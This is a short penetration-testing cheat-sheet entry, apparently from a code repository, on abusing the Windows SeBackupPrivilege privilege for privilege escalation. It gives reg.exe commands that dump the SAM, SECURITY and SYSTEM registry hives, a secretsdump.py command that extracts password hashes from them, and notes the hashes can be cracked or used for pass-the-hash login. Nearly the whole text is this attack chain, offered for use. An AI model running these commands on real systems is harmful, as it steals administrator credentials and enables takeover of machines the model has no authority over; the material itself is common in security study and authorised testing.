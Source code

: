# SeBackupPrivilege

SeBackupPrivilege - Enabled

This privilege allows the user to read all the files in the system.

Getting SYSTEM, SAM, SECURITY files -> Extract administrator hash -> login with pth or you can crack it

```
C:> reg.exe save hklm\sam c:\windows\temp\sam.save
C:> reg.exe save hklm\security c:\windows\temp\security.save
C:> reg.exe save hklm\system c:\windows\temp\system.save

$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
